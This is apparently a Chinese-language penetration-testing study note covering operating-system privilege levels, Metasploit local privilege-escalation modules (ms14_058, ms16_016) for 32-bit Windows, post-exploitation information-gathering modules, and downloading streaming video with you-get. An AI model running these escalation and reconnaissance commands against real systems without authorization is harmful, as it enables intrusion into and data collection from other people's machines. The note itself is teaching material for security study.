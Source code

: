 # 渗透测试基础10

# 操作系统权限及密码破解（操作系统权限、计算机组成权限、利用msf对Windows操作系统的提权漏洞、利用msf对目标信息采集、流媒体数据包you-get捕获）

## 操作系统权限：

### windows:
system
administrator
(others)

### linux:
root
(others)



## 计算机组成相关权限

**CPU:**
**OS**（操作系统——可以在其身上安装其他软件的软件，需要配合硬件）
**ring0** 权限（驱动程序）——需要学习windows ddk
**ring3** 权限（大多数软件）



**usb接口**（硬件）

**硬件编程**



## 操作系统提权：
msf：

```
ms14_058,ms16_016
# 目标x32位系统

use exploit/windows/local/ms14_058...
show options
set session 1
exploit
# 如果使用成功会返回一个新的session号
```



较出名漏洞：

cve
cnnvd

......

![image-20220109234619923](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/image-20220109234619923.png)









## 目标信息采集：

msf

需要进入到一个sessions里

```
run post/windows/gather/forensics/xxxxx  # 取证模块

run post/windows/gather/checkvm   # 检测是否为虚拟机

run post/windows/gather/enum_services   # 查看运行的服务

run post/windows/gather/enum_applications   # 查看电脑安装了哪些应用

run post/windows/gather/enum_shares    # 查看共享

run post/windows/gather/dumplinks   # 查看最近操作（安装东西）

run post/windows/gather/enum_patches   # 查看用户安装了哪些补丁
```



```
cd /usr/share/metasploit-framework/scripts/resource/   #可以看到大佬的脚本
```



```
run scraper   # 导出所有信息

run winenum   # 搜集系统环境变量
```



## 数据包you-get捕获：

流媒体，很难搞
安装python环境

```
pip install -i https://pypi.doubanio.com/simple you-get

you-get -i [视屏地址]

看到视频所有支持的格式
按照提示去下载视频
```
